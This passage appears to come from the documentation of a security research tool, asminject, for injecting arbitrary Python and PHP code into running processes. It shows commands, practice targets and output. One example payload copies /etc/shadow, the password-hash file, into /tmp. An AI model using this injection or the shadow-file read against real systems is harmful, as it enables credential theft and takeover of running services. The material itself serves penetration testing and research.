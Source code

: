 ```
# ./get_relative_offsets.sh /usr/bin/python2.7 > relative_offsets-python2.7.txt

python3 ./asminject.py 2144294 asm/x86-64/execute_python_code.s --relative-offsets relative_offsets-python2.7.txt --relative-offsets --stop-method "slow" --var pythoncode "import os; import sys; finput = open('/etc/shadow', 'rb'); foutput = open('/tmp/bishopfox.txt', 'wb'); foutput.write(finput.read()); foutput.close(); finput.close();"
```

## Execute arbitrary PHP code inside an existing PHP process

PHP has a similar "compile and execute this sequence of source code" method.

This payload requires two variables: `phpcode`, which should contain the PHP code that should be executed in the existing PHP process, and `phpname`, which can generally be set to any string.

This payload requires relative offsets for the `php` binary used by the target process.

In one terminal window, launch the practice PHP loop, e.g.:

```
$ php practice/php_loop.php

2022-05-12T13:40:51-0700 - Loop count 0
2022-05-12T13:40:56-0700 - Loop count 1
2022-05-12T13:41:01-0700 - Loop count 2
```

In a separate window, get the appropriate `php` offsets, find the target process, and inject the code:

```
# ./get_relative_offsets.sh /usr/bin/php8.1 > relative_offsets-php8.1.txt

# ps auxww | grep php | grep -v grep  
  
root     2037629  1.0  0.5  68780 20212 pts/9    S+   13:40   0:00 php practice/php_loop.php

# python3 ./asminject.py 2037629 asm/x86-64/execute_php_code.s --relative-offsets relative_offsets-php8.1.txt  --stop-method "slow" --var phpcode "echo \\\"Injected PHP code\\\n\\\";" --var phpname PHP
```

In the first window, note that the loop is interrupted by the injected code, e.g.:

```
2022-05-12T13:41:46-0700 - Loop count 11
Injected PHP code
2022-05-12T13:41:53-0700 - Loop count 12
2022-05-12T13:41:58-0700 - Loop count 13
```

## Execute arbitrary Ruby code inside an existing Ruby process
